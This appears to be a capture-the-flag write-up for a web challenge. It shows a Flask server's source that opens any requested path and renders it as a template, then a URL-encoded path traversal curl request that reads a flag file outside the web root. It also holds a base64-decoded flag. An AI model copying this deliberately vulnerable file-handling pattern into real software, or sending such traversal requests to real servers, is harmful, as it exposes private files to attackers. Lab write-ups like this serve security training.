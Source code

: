 ## Web Hacking 04
> The Flag is hidden somewhere on the website, can you find it?
> 
> http://192.168.10.5:5000
> 
> Warning, the Flag is split into 2 parts, make sure to find them and combine both parts before submitting.

The webserver is a guicorn, so a python based server. On initial request it redirects to `/index.template`. The HTML source has a comment in the last line which shows the source file name `server.py`.

When requested, the server sends the raw source code, containing the first part of the flag.
```python
$ curl http://$IP:$PORT/server.py

import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG PART 1: Y3liZXJjdGZke2Qwbjdf'
    with open('/flag') as f:
            flag2 = f.read()

    print("Ready set go!")
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: server.py, src: /code/server.py -->
```

The code indicates that the second flag is in the file called `flag`. Since it is one level higher that the `server.py`, we need to exploit a [Path Traversal vulnerability](https://security.snyk.io/vuln/SNYK-PYTHON-FLASKCORS-608972). With the `..` urlencoded in front of the file name, the flag can be obtained.

```bash
$ curl http://$IP:$PORT/%2e%2e/flag
FLAG PART 2: NXBsMTdfbTNfNHA0cjd9

<!-- page: ../flag, src: /code/server.py --> 
```

Combining the two flag parts yields the full, base64 encoded, flag.
```bash
$ echo "Y3liZXJjdGZke2QwbjdfNXBsMTdfbTNfNHA0cjd9" | base64 -d
cyberctfd{d0n7_5pl17_m3_4p4r7}
```

